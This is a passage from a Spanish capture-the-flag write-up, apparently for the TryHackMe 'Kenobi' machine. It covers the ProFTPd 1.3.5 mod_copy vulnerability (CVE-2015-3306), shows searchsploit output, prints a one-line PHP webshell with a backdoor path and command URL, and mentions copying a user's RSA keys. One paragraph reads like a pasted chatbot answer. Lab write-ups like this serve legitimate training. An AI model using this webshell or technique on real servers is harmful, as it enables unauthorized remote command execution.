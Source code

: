 Ahora que sabemos la versión podemos buscar exploits para esta.

Buscando en internet encontramos el siguiente [CVE-2015-3306](https://github.com/t0kx/exploit-CVE-2015-3306)

De forma alternativa podemos buscar exploit mediante el comando `searchsploit` de metasploit.

```bash
searchsploit proftpd 1.3.5
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
ProFTPd 1.3.5 - File Copy                                  | linux/remote/36742.txt
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)  | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution (2)    | linux/remote/49908.py
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution        | linux/remote/36803.py
----------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Vamos a usar el PoC.

- CVE-2015-3306

Es una vulnerabilidad en ProFTPd mod_copy, un módulo que permite copiar archivos en el servidor usando comandos **SITE CPFR** y **SITE CPTO**.

La falla permite a un atacante escribir archivos arbitrarios en el servidor sin autenticación (si el módulo está activo).

Buenísima pregunta, estás viendo un **exploit para ProFTPd 1.3.5** que aprovecha la vulnerabilidad **CVE-2015-3306**. Te explico de forma clara qué hace este script:

### ¿Qué hace este script en Python?
Este exploit sube una **webshell en PHP** al servidor a través de comandos del protocolo FTP.

1. **Se conecta al FTP** (`__connect()`).
2. **Crea una "copia falsa"** de su propio proceso usando `SITE CPFR /proc/self/cmdline` — esto sirve como truco para engañar el módulo.
3. **Usa `SITE CPTO` para "copiar" un payload malicioso**, que en realidad es una pequeña webshell PHP:  
   ```php
   <?php echo passthru($_GET['cmd']); ?>
   ```
4. **Coloca esa webshell en el servidor web** (por ejemplo en `/var/www/html/backdoor.php`).
5. Verifica si el mensaje `"Copy successful"` aparece → si sí, te dice que ya puedes visitar la shell:  
   `http://[host]/backdoor.php?cmd=whoami`
6. Lanza el comando `whoami` automáticamente para mostrar si funcionó.

### Ganando acceso

Para este ejemplo no vamos a necesitar esta webshell ya que podemos copiar las claves RSA del usuario `kenobi` y usarlas para acceder a la máquina.

![alt text](/assets/img/writeups/tryhackme/kenobi/image-1.png)

